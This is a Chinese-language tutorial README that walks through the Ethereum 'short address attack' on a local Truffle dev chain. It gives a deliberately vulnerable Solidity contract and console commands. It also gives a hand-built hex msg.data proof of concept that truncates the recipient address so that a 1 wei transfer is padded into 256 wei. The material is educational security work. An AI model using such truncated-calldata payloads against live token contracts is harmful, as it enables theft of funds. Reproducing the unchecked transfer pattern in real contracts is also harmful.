# Short Address Attack
## 短地址攻击
### 源代码：[DASP_TOP_10_Tutorial - 09.Short_Address_Attack](https://github.com/UUUUnotfound/DASP_TOP_10_Tutorial/tree/master/09.Short_Address_Attack)
### 环境依赖
```
cat /etc/issue
#Ubuntu 16.04.3 LTS

node --version
#v10.2.1

truffle version
#Truffle v4.1.11 (core: 4.1.11)
#Solidity v0.4.24 (solc-js)
```
### 环境安装
```
sudo apt-get install nodejs
sudo apt install nodejs-legacy
sudo apt install npm
sudo npm install n -g
sudo n stable

npm install -g truffle
```

### 被攻击合约 
Attack.sol
```
pragma solidity ^0.4.11;


contract Attack {

  mapping(address => uint256) balances;

  event Transfer(address,address,uint256,bytes);
  
  function Attack() payable {
      msg.value;
  }
  
  function () payable {
      msg.value;
  }
  
  function transfer(address _to,uint _value) {
    _to.send(_value);
    Transfer(msg.sender,_to,_value,msg.data);
  }


  function balanceOf(address _owner) constant returns (uint256 balance) {
    return balances[_owner];
  }

}
```

### 使用 
```
git clone https://github.com/UUUUnotfound/DASP_TOP_10_Tutorial.git

cd DASP_TOP_10_Tutorial/09.Short_Address_Attack/Short_Address_Attack

truffle develop
```




### 以下是truffle console 中代码
只需要在truffle console 里输入 ***truffle(develop)>*** 后面的内容

#### 编译合约

***truffle(develop)>*** `compile`




#### 部署合约

***truffle(develop)>*** `migrate`




*
Using network 'develop'.

...
  Attack: 0x345ca3e014aaf5dca488057592ee47305d9b3e10
Saving successful migration to network...
  ... 0xf36163615f41ef7ed8f4a8f192149a0bf633fe1a2398ce001bf44c43dc7bdda0
Saving artifacts...

*
#### 初始化默认账户

***truffle(develop)>*** `web3.eth.defaultAccount = web3.eth.accounts[2]`




#### 短地址

***truffle(develop)>*** `wallet_short_address = "0x14723a09acff6d2a60dcdf7aa4aff308fddc8800"`





#### 编译生成 Attack合约地址 填到下面 
比如 `"0x345ca3e014aaf5dca488057592ee47305d9b3e10"`
最新版的web3js不支持编译solidity,需要用remix-ide或者solc编译,暂时不写了

***truffle(develop)>*** `contract_short_address_attack = "0x345ca3e014aaf5dca488057592ee47305d9b3e10"`



#### 查看短地址钱包余额

***truffle(develop)>*** `web3.eth.getBalance(wallet_short_address).toString()`
*output:'0'*




#### 构造raw msg.data

原始数据 从remix-ide获取的msg.data
也可以自己构造 至于直接使用 remix-ide 里面复现不成功有几点原因
直接在代码合约里使用  address("0x14723a09acff6d2a60dcdf7aa4aff308fddc88").send(1),会变成 address("0x0014723a09acff6d2a60dcdf7aa4aff308fddc88").send(1)
前台通过参数输入 0x14723a09acff6d2a60dcdf7aa4aff308fddc88,1 的形式会被识别成string类型而不通过检查,引发报错
raw data: byte4(keccak("transfer(address,uint)")+"0x14723a09acff6d2a60dcdf7aa4aff308fddc8800"+1

***truffle(develop)>*** `raw="a9059cbb00000000000000000000000014723a09acff6d2a60dcdf7aa4aff308fddc88000000000000000000000000000000000000000000000000000000000000000001"`








#### 构造 短地址攻击POC msg.data 
POC msg.data是将raw中的地址部分后两字节'00'(共16bits)删除,这里evm虚拟机会从右补全,也就是说 0x1->0x100 = 256
00000000000000000000000000000000000000000000000000000000000001
0000000000000000000000000000000000000000000000000000000000000100
poc_data byte4(keccak("transfer(address,uint)")+"0x14723a09acff6d2a60dcdf7aa4aff308fddc88"+1

***truffle(develop)>*** ```poc_data="a9059cbb00000000000000000000000014723a09acff6d2a60dcdf7aa4aff308fddc880000000000000000000000000000000000000000000000000000000000000001";```




#### 先给contract_short_address_attack合约充值

充值10000000 wei 防止ether不够

***truffle(develop)>*** `web3.eth.sendTransaction({to:contract_short_address_attack,value: 10000000})`




#### 这里发送 1 wei，属于测试合约是否能正常工作
***truffle(develop)>*** `web3.eth.sendTransaction({to:contract_short_address_attack,data: raw})`




#### 再次查看短地址钱包余额
再查看 wallet_short_address 的余额已经增加了 1 wei
***truffle(develop)>*** `web3.eth.getBalance(wallet_short_address).toString()`



#### 发送POC msg.data到Attack合约 
相当于发送 `0x100=256 wei` 到 `wallet_short_address`

***truffle(develop)>*** `web3.eth.sendTransaction({to:contract_short_address_attack,data: poc_data})`




#### 再次查看短地址钱包余额
再查看 wallet_short_address 的余额已经增加了 256 wei
***truffle(develop)>*** `web3.eth.getBalance(wallet_short_address).toString()`




> Tips:
> 如果报错
>#SyntaxError: Unexpected end of JSON input while parsing near
>
>可能是因为使用了淘宝nodejs源(https://registry.npm.taobao.org)
>可以尝试以下命令切换
>
>`npm config set registry http://registry.cnpmjs.org`

> 参考
> 
> 1.[Analyzing the ERC20 Short Address Attack – Eric Rafaloff](https://ericrafaloff.com/analyzing-the-erc20-short-address-attack/)
>
> 2.[以太坊智能合约安全入门了解一下（下）](http://rickgray.me/2018/05/26/ethereum-smart-contracts-vulnerabilities-review-part2/#3-Arithmetic-Issues)


